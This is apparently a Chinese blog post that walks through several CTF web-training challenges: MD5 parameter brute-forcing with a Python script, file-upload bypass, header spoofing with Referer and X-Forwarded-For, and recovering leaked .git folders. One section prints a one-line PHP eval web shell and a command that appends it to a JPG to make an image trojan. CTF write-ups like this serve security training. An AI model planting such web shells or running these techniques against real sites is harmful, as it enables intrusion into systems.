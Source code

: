 ```yaml
---
layout: post
tags: CTF
title: "帽子戏法Web训练（二）"
category: CTF
excerpt: 帽子戏法Web训练题解
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](https://github.com/miaochiahao/miaochiahao.github.io/blob/master/pictures/alipay.jpg?raw=true)一下吧~我会写出更好的文章

### [Burp/Python](http://218.76.35.75:20115)

首先观察题目可得，三个链接点进去后是三个不同的地址，前两个的地址栏最后的参数都是MD5值，解密可得分别为bob317，sam429。因此猜测第三个参数应该为“slash+三位数”，在此采用爆破的思想。

{% highlight python %}
# -*- coding:gbk -*-
import hashlib
import urllib

for i in range(100,1000):

	src = "slash"+str(i)
#	print src
	payload = hashlib.md5()
	payload.update(src)
	payload = payload.hexdigest()
#	print payload
	file = urllib.urlopen("http://218.76.35.75:20115/index.php?page="+str(payload))
	if '\xe6\x96\x87\xe4\xbb\xb6\xe4\xb8\x8d\xe5\xad\x98\xe5\x9c\xa8\xef\xbc\x8c\xe8\xaf\xb7\xe8\xbf\x94\xe5\x9b\x9e\xe3\x80\x82' not in file.readlines():
		print "Got it! "+"The answer is "+ payload
	else:
		print "The answer is not "+ payload
{% endhighlight %}

![web1](http://oc42vgpoj.bkt.clouddn.com/web1.png)


### [文件上传/BurpSuite](http://218.76.35.75:20122)

题目要求上传文件，先任意上传一个文件，发现显示`only accept jpg file~`，而当上传JPG文件时，发现显示`upload success,but not php!`，也就是说我们需要把一个PHP文件，以JPG文件格式上传。（其实也有可能是把一个JPG文件在后缀名改为PHP，但考虑到实际用途可能是在网站利用文件上传漏洞上传一句话木马还是觉得前面的说法靠谱一点。）

于是Burp抓包修改之~
![web2](http://oc42vgpoj.bkt.clouddn.com/web2.png)

![web2_flag](http://oc42vgpoj.bkt.clouddn.com/web2_flag.png)

### [BurpSuite](http://218.76.35.75:20127/)

点进去以后发现上面写着
> To the world you may be just somebody  
> im not admin~  

猜想需要将用户身份伪装成admin，于是开启Burp截获数据，发现了前面有一个User变量，后面是一个三位数，爆破之~

先用Python生成了一个三位数字典文件
![web3_dict](http://oc42vgpoj.bkt.clouddn.com/web3_dict.png)

然后用Burp加载爆破，最后结果不一样的就是我们需要的答案。

![web3_res](http://oc42vgpoj.bkt.clouddn.com/web3_res.png)

Flag如下

![web3_flag](http://oc42vgpoj.bkt.clouddn.com/web3_flag.png)

### [BurpSuite](http://218.76.35.75:65280/)

进去以后发现了一个提交密码的页面并且提示了需要伪造IP和来源，然而密码并没有。试着提交了下，然后收集了返回的信息（Send to repeater）

发现了一个MD5形式的密码，解码为`cafe`

![web4_pass](http://oc42vgpoj.bkt.clouddn.com/web4_pass.png)

然后通过`Referer`来伪造来源，通过`X-Forwarded-For`来伪造IP

![web4_answer](http://oc42vgpoj.bkt.clouddn.com/web4_answer.png)

得到Flag

![web4_flag](http://oc42vgpoj.bkt.clouddn.com/web4_flag.png)

### [BurpSuite](http://218.76.35.75:20103/)

发现是一个文件上传，而且上传后能读取图片，于是考虑合成图片木马

先写了一个一句话木马的PHP文件 Trojan.php

{% highlight php %}
<?php @eval($_POST['pass']);?>
{% endhighlight %}

然后选取了一张可以上传的图片 Photo.jpg  
用命令`copy Photo.jpg/b + Trojan.php/a Final.jpg`  
其中b表示二进制文件，a表示ASCII文件  
将此文件上传即可

### [Git文件泄露](http://218.76.35.75:20104/)

> 测试了一遍以后，发现应该存在漏洞的点，均不存在漏洞的时候，就需要考虑源码泄漏了
> * robots.txt
>
> * 临时文件泄露 
>   list=[“.swp”,”.bak”,”~”,”zip”,”.tar.gz”,”.rar”,”.tar”,”.old”,”.7z”,”.gz”,”.txt”,”.inc”,”.copy”,”.src”,”.tmp”,”.orig”,”.dev”,”.idea”]
>
> * Git .git文件夹
>
> * SVN .svn
>
> * DS_store CVS                
>
>   ​                                                                                                                        by 默小西

经过提示发现是.git文件泄露，一开始用了`GitHack.py`工具，得到了PHP文件源码，但是并没有什么用。

后来发现思路错了，应该是Git版本问题，所以找到了`rip-git.pl`工具，与上面工具不同的地方在于这个还可以下载到Git配置文件

![file_rip-git](http://oc42vgpoj.bkt.clouddn.com/file_rip-git.png)

于是使用`git log`查看版本，恢复到之前的版本后发现`Hack.php`文件内出现了Flag

![file_log](http://oc42vgpoj.bkt.clouddn.com/file_log.png)

得到Flag

![file_flag](http://oc42vgpoj.bkt.clouddn.com/file_flag.png)

PS. 关于`rip-git.pl`可在[此处](https://www.secpulse.com/archives/6275.html)了解更多

